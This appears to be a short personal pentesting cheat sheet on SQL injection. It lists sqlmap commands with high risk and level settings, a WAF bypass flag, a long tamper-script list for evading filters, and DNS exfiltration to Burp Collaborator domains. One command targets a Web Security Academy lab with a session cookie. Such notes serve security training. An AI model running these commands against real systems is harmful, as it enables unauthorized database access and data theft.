 ```yaml
---
icon: syringe
---
```


# SQLI

Make sure SQLMAP DNS Collaborator extension is still installed (testing)

* Cryptocat recommends to avoid using `-r`option and to just use CLI

```bash
sudo sqlmap --skip-waf --risk 3 --level 3 -r request.item --batch --dns-domain=laz3k1ymu2kc0idl9tumx345nwtnhf54.oastify.com
```

Tamper scripts general (Jhaddix)

```
tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
```

```
sqlmap --list-tampers 
```

```bash
# Hex Entity encoded XML Post for lab
sudo sqlmap --skip-waf --dns-domain=izlubtqohy2z2888mo48gfhcv31upkd9.oastify.com  --level 3 --risk 3 -u https://0acf0086046a3c558189d41400ba001d.web-security-academy.net/product/stock --cookie "session=Q3sPhj537HOewWIqNvbF7uz9B8VMoaYI" --data '<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1*</storeId></stockCheck>' --tamper=hexentities --batch
```
